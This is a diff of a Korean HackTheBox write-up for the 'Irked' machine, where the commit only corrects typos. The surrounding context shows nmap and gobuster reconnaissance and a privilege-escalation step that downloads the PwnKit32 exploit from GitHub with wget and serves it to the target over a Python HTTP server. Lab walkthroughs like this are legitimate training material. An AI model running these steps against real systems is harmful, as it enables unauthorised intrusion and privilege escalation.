

Before and after one commit to JaedongSeo/HackTheBox, a Markdown page: Irked/README.md, 3 parts joined by grey strips. Drawn GitHub-style.

````diff
--- a/Irked/README.md
+++ b/Irked/README.md
@@ -2,7 +2,7 @@
 ## target: 10.129.215.108
 
 ## 정보수집
-대상 호스트의 열려있는 포트를 조사하기 위해 nmap을 사용하여 포트스캐닝을 진행행
+대상 호스트의 열려있는 포트를 조사하기 위해 nmap을 사용하여 포트스캐닝을 진행
 ```bash
 #빠르게 전채 포트 스캔
 nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 $ip
@@ -14,7 +14,7 @@ PORT      STATE SERVICE
 52804/tcp open  unknown
 65534/tcp open  unknown
 
-#열려있는 포트 서비스 버전 확인인
+#열려있는 포트 서비스 버전 확인
 nmap -sV -sC -oA nmap/Irked $ip -p 22,80,111,6697,52804,65534
 
 PORT      STATE SERVICE VERSION
@@ -64,7 +64,7 @@ gobuster dir -u http://10.129.215.108/ -w /usr/share/wordlists/dirb/common.txt -
 /manual               (Status: 301) [Size: 317] [--> http://10.129.215.108/manual/]
 ```
 별다른 경로를 찾지 못했다.
-웹페이지를 보면 irc 서비스가 운영중인걸로 보인다 irc연결 시도도
+웹페이지를 보면 irc 서비스가 운영중인걸로 보인다 irc연결 시도
 ```bash
 
 sudo apt install irssi
@@ -175,7 +175,7 @@ ircd@irked:/tmp$ uname -a
 Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux
 # 32비트 운영체제
 
-#32 비트운영체제에 맞는 exploit으로 시도도
+#32 비트운영체제에 맞는 exploit으로 시도
 #공격자 kali
 wget https://github.com/ly4k/PwnKit/raw/refs/heads/main/PwnKit32 -O PwnKit32
 python3 -m http.server 7777
````
